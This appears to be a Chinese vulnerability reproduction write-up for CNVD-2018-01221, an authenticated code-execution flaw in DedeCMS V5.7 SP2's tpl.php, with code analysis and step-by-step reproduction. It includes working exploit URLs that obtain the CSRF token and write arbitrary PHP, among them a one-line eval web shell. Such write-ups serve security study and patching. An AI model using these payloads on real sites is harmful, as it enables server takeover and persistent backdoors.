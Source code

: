 （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞
===================================================

一、漏洞简介
------------

DedeCMS V5.7
SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

二、漏洞影响
------------

三、复现过程
------------

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![](resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId24.png)

### 代码分析

    (1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
    (2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
    (3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
       [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
       所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
    (4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
    (5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
    (6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
       导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

### 漏洞复现

获取token

    http://0-sec.org/dede/tpl.php?action=upload

![](resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId27.png)

然后查看网页源代码，找到token

![](resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId28.png)

构造payload如下

    http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token)

访问了成功写入

![](resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId29.png)

访问写入的文件

    http://0-sec.org/include/taglib/（你上传的文件名）.lib.php

![](resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId30.png)

也可以构造一句话木马payload

    http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929

![](resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId31.png)
